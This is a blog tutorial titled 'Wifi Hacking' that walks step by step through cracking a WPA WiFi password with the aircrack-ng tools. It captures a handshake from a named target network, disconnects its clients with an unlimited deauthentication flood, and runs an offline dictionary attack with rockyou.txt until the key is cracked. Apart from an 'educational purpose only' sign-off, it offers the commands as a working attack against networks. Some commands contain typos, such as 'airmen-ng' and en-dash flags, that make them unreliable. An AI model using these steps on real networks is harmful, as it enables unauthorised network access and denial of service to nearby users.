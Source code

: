 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking


description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-1.jpg" alt="Network Adapter">

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-2.png" alt="Network Adapter">

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-3.png" alt="Network Adapter">

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-4.png" alt="Network Adapter">

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-5.png" alt="Network Adapter">

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-6.png" alt="Network Adapter">

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-7.png" alt="Network Adapter">

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-8.png" alt="Network Adapter">

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-9.png" alt="Network Adapter">

Now, you see that it captures the handshake. Type in the ls command to see the file.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-10.png" alt="Network Adapter">

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-11.png" alt="Network Adapter">

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
